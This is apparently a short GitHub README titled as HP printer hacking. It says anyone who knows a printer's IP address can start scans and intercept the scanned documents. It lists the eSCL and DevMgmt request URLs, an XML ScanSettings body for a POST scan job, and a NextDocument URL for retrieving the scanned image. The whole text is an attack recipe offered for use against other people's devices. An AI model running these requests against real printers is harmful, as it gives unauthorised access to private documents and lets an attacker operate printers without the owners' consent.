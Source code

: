 # HP printer | Scanner | Hacking
HP printers have a vulnerability with online requests. With these requests, you can intercept the data of scanned documents. Make a scan task. I can also send any documents for printing.

To receive data from the printer, you only need to know its ip, which is very easy to find.

Basic requests:

`http://192.168.31.187/eSCL/ScannerCapabilities`

`http://192.168.31.187/DevMgmt/ProductStatusDyn.xml`

`http://192.168.31.187/eSCL/ScannerStatus`

`http://192.168.31.187/eSCL/ScanJobs` - POST

```xml
<escl:ScanSettings xmlns:escl="http://schemas.hp.com/imaging/escl/2011/05/03" xmlns:pwg="http://www.pwg.org/schemas/2010/12/sm" xmlns:scan="http://schemas.hp.com/imaging/escl/2011/05/03">
  <pwg:Version>2.63</pwg:Version>
  <pwg:ScanRegions>
    <pwg:ScanRegion>
      <pwg:Height>3507</pwg:Height>
      <pwg:ContentRegionUnits>escl:ThreeHundredthsOfInches</pwg:ContentRegionUnits>
      <pwg:Width>2481</pwg:Width>
      <pwg:XOffset>0</pwg:XOffset>
      <pwg:YOffset>0</pwg:YOffset>
    </pwg:ScanRegion>
  </pwg:ScanRegions>
  <pwg:DocumentFormat>image/jpeg</pwg:DocumentFormat>
  <pwg:InputSource>Platen</pwg:InputSource>
  <escl:XResolution>200</escl:XResolution>
  <escl:YResolution>200</escl:YResolution>
  <escl:ColorMode>RGB24</escl:ColorMode>
  <escl:Duplex>false</escl:Duplex>
</escl:ScanSettings>

```

`http://192.168.31.187/eSCL/ScanJobs/f2nt7zvf-k59q-yk0h-1007-1odl0dbx/NextDocument`
